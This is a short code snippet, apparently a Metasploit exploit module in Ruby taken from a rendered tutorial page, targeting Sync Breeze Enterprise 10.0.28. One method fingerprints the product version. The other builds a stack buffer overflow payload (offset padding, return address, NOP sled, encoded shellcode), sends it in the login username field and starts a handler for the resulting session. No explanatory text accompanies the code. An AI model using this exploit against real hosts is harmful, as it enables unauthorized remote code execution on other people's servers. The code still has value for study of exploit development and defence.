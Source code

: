 ```ruby
    def check 
        res = send_request_cgi( 
            'uri' => '/', 
            'method' => 'GET'
        )
        
        if res && res.code == 200 
            product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
            if product_name =~ /10\.0\.28/ 
                return Exploit::CheckCode::Appears
            end 
        end 
        
        return Exploit::CheckCode::Safe 
    end
    
    def exploit
        print_status("Generating exploit...")
        exp = rand_text_alpha(target['Offset']) 
        exp << [target.ret].pack('V') 
        exp << rand_text(4) 
        exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode 
        exp << payload.encoded 
        
        print_status("Sending exploit...") 
        
        send_request_cgi( 
            'uri' => '/login', 
            'method' => 'POST', 
            'connection' => 'keep-alive',
            'vars_post' => { 
                    'username' => "#{exp}", 
                    'password' => "fakepsw" 
                } 
        ) 
        
        handler 
        disconnect 
    end 
end
```
{% endcode %}
